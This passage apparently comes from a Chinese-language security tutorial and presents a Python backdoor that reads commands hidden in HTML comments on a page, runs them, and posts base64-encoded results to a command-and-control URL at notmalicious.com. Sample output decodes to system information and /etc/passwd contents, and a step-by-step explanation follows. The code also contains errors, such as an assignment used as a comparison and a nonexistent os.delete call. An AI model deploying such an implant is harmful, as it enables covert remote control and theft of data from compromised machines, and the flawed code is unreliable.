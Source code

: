 我们将使用的脚本如下：

```py
import requests
import re
import subprocess
import time
import os

while 1:
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
  for comment in comments:
    if comment = " ":
      os.delete(__file__)
    else:
      try:
        response = subprocess.check_output(comment.split())
      except:
        response = "command fail"
  data={"comment":(''.join(response)).encode("base64")}
  newreq = requests.post("http://notmalicious.com/c2.php", data=data)
  time.sleep(30)
```

以下是使用此脚本时产生的输出示例：

```py
Name: TGludXggY2FtLWxhcHRvcCAzLjEzLjAtNDYtZ2VuZXJpYyAjNzktVWJ1bnR1IFNNU CBUdWUgTWFyIDEwIDIwOjA2OjUwIFVUQyAyMDE1IHg4Nl82NCB4ODZfNjQgeDg2X zY0IEdOVS9MaW51eAo= Comment:
Name: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFl bW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9i aW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jp bi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5 bmM6L2JpbjovYmluL3N5bmMKZ Comment:
```

## 它是如何工作的...

像往常一样，我们导入必要的库并启动脚本：

```py
import requests
import re
import subprocess
import time
import os
```

由于此脚本具有内置的自删除方法，因此我们可以设置它以以下循环永远运行：

```py
while 1:
```

我们发出请求，检查我们预先配置的页面上是否有任何评论。如果有，我们将它们放在一个列表中。我们使用非常基本的`regex`来执行此检查：

```py
  req = requests.get("http://127.0.0.1")
  comments = re.findall('<!--(.*)-->',req.text)
```
